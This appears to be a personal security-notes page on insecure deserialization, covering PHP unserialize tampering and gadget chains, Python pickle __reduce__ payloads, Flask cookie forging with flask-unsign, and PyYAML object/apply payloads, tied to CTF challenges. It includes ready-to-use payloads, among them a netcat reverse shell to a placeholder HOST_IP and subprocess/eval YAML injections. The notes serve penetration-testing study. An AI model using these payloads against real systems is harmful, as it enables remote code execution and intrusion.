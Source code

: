 # Insecure Deserialization

[![owasptop10](../../../../_badges/thm/owasptop10.svg)](https://tryhackme.com/room/owasptop10)
[![deserialization](../../../../_badges/owasp/deserialization.svg)](https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html)

<div class="row row-cols-lg-2"><div>

Insecure Deserialization is a vulnerability that occurs when the deserialization process can be exploited to run malicious code.
</div><div>
</div></div>

<hr class="sep-both">

## SerializedVariable Deserialization — PHP

[![php_deserialization](../../../../_badges/poat/php_deserialization.svg)](https://swisskyrepo.github.io/PayloadsAllTheThings/Insecure%20Deserialization/PHP/)
[![php_serialization](../../../../_badges/rootme/web_server/php_serialization.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-Serialization)
[![php_unserialize_pop_chain](../../../../_badges/rootme/web_server/php_unserialize_pop_chain.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-Unserialize-Pop-Chain)

<div class="row row-cols-lg-2"><div>

The [serialize](https://www.php.net/manual/en/function.serialize.php) function can be used to convert an object to a serialized string that can be loaded back using [unserialize](https://www.php.net/manual/en/function.unserialize.php).

If the serialized data is user-controlled, we may be able to:

* 🏁 Invoke defined methods using autoloading <small>(e.g. not arbitrary)</small>
* 🔫 Manipulate data to exploit the code <small>(e.g. auth-bypass)</small>

#### SerializedVariable — Data Manipulation

We may be able to bypass some checks or set some attributes.

```php!
$serialized = serialize(['user'=>'guest', 'is_admin'=>false]);
// a:2:{s:4:"user";s:5:"guest";s:8:"is_admin";b:0;}
$data = unserialize('a:2:{s:4:"user";s:5:"guest";s:8:"is_admin";b:1;}');
// ['user'=>'guest', 'is_admin'=>true]
```

This can be further exploited if there are some [logic flaws](/cybersecurity/red-team/s2.discovery/techniques/websites/logic_flaws.md#php-loose-comparison-and-type-juggling).
</div><div>

#### SerializedVariable — Program Flow Manipulation

When unserializing an object, the method `__wakeup` is automatically called. This method may contain code that may be further exploited.

While we cannot inject code directly, we may be able to create a suite of successive method calls, referred to as a **gadget chain** 🤖. It may eventually lead to a RCE. Refer to [phpggc](https://github.com/ambionics/phpggc) <small>(3.0k ⭐)</small>.

```php!
class Foo {}
class Bar
{
    public function __wakeup(): void {
        echo $this; // invoke __toString
    }

    public function __toString(): string {
        return "Bar.__toString";
    }

    // will be called when destroyed
    public function __destruct() { echo "Bar.__destruct"; }
}

$x = new Foo();      
$x->attr = new Bar();       // who cares 'attr' doesn't exist
unserialize(serialize($x)); // __wakeup will still be called
```
</div></div>

<hr class="sep-both">

## Pickle Deserialization — Python

[![unbakedpie](../../../../_badges/thm-p/unbakedpie.svg)](https://tryhackme.com/r/room/unbakedpie)
[![python_pickle](../../../../_badges/rootme/app_script/python_pickle.svg)](https://www.root-me.org/en/Challenges/App-Script/Python-pickle)

<div class="row row-cols-lg-2"><div>

The python [pickle module](https://docs.python.org/3/library/pickle.html) can be used for object serialization, while it's explicitly stated that it shouldn't be used with untrusted input.

You can either use `__reduce__` or use a function following [checkoway](https://checkoway.net/musings/pickle/) article, the latter being *sightly* more complex.

```py
class Exploit(object):
    def __reduce__(self):
        # write your code here
```

To test your exploit

```py
payload = pickle.dumps(Exploit())
pickle.loads(payload)
// base64.urlsafe_b64encode(payload)
```

You may alternatively use pickle bytecode:

* [Pickora](https://github.com/splitline/Pickora) <small>(0.1k ⭐, 2023 🪦)</small>
* [pickleassem](https://github.com/gousaiyang/pickleassem) <small>(0.01k ⭐, 2021 🪦)</small>
</div><div>

A few code samples:

```py
        import os
        return (os.system, ("echo 'Hello, World!'",))
```

```py
        import os # doesn't work with pickle.dumps
        raise Exception(os.popen("whoami;id;pwd;ls -1a").read())
```

```py
        import os # sudo tcpdump -i tun0 icmp
        return (os.system, ("ping -c 1 HOST_IP",))
```

```py
        import os
        return (os.system, ("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1 | nc HOST_IP PORT > /tmp/f",))
```
</div></div>

<hr class="sep-both">

## Example CVEs

<div class="row row-cols-lg-2"><div>

#### CVE-2021-33026 (Flask/Python)

[![owasptop10](../../../../_badges/thm/owasptop10.svg)](https://tryhackme.com/room/owasptop10)
[![flask_unsecure_session](../../../../_badges/rootme/web_server/flask_unsecure_session.svg)](https://www.root-me.org/en/Challenges/Web-Server/Flask-Unsecure-session)

An insure deserialization in Flask (Python) allowed  a hacker to craft a malicious [cookie](/programming-languages/web/_general/random/cookies.md) with a command inside. When the cookie was deserialized, the command was executed by the server.

* Cookies can be read without the secret key
* Cookies can be forged with the secret key
* [kirsle flask cookie reader](https://www.kirsle.net/wizards/flask-session.cgi) (Website)
* See also: [flask-session-manager](https://github.com/noraj/flask-session-cookie-manager) <small>(0.6k ⭐)</small> or [Flask Unsign](https://github.com/Paradoxis/Flask-Unsign)  <small>(0.4k ⭐)</small>

```shell!
$ pip3 install flask-unsign[wordlist]
$ sudo ln -s /home/<xxx>/.local/bin/flask-unsign /usr/bin/flask-unsign
$ flask-unsign --decode --cookie 'cookie'        # decode
$ flask-unsign --unsign --cookie 'cookie'        # find key
$ flask-unsign --sign --cookie '' --secret 'dev' # encode
```
</div><div>

#### Yaml Deserialization - PyYAML

[![python_yaml_deserialization](../../../../_badges/hacktricks/python_yaml_deserialization.svg)](https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization)
[![yaml_deserialization](../../../../_badges/poat/yaml_deserialization.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/YAML.md)
[![yaml_deserialization](../../../../_badges/rootme/web_server/yaml_deserialization.svg)](https://www.root-me.org/en/Challenges/Web-Server/Yaml-Deserialization)

PyYAML version 6 and below instanciated by default an insecure parser which could be exploited to run python code.

```yaml!
xxx: !!python/object/apply:time.sleep [2]
```

The `xxx:` is only necessary if a specific element <small>(e.g., xxx)</small> is rendered.

```yaml!
!!python/object/apply:builtins.range [1,10,1]
!!python/object/apply:subprocess.Popen ["ls"]
!!python/object/apply:subprocess.check_output [['ls', '-la']]
!!python/object/apply:builtins.eval [ "5" ]
!!python/object/apply:builtins.eval [ "__import__('subprocess') or 'error'" ]
!!python/object/apply:builtins.eval [ "__import__('subprocess').check_output(['ls', '-l']).decode('utf-8') or 'error'" ]
```

➡️ See also: [python-deserialization-payload-generator](https://github.com/j0lt-github/python-deserialization-attack-payload-generator) <small>(0.1k ⭐)</small>.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [ysoserial](https://github.com/frohoff/ysoserial) (Java object deserialization)
</div><div>
</div></div>